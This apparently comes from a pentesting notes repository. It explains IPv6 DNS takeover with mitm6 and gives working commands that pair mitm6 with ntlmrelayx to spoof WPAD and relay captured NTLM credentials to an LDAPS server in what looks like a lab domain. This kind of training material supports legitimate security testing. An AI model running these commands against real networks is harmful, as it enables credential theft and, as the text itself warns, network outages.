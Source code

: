 # IPV6 Attacks
### DNS Takeover
[mitm6](https://github.com/dirkjanm/mitm6) is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As a DNS server, mitm6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server. Mitm6 is designed to work together with ntlmrelayx from impacket for WPAD spoofing and credential relaying. 

> This can and will cause outages. Run in short bursts.

```bash
ntlmrelayx.py -6 -t ldaps://10.13.37.10 -wh fakewpad.marvel.local -l loot

sudo mitm6 -d MARVEL.LOCAL
```